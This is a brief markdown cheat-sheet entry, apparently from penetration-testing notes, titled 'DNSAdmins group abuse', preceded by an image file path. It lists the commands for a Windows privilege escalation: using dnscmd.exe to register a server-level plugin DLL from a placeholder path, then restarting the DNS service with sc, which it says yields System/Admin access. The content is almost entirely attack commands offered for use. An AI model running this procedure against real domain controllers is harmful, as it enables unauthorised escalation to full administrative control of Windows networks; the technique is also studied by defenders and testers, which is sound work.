 # DNSAdmins group abuse

    dnscmd.exe /config /serverlevelplugindll \\PATH\TO\.DLL (Need a dnsadmin user)

    sc \\DNSServer stop dns

    sc \\DNSServer start dns

### This gives us System/Admin access
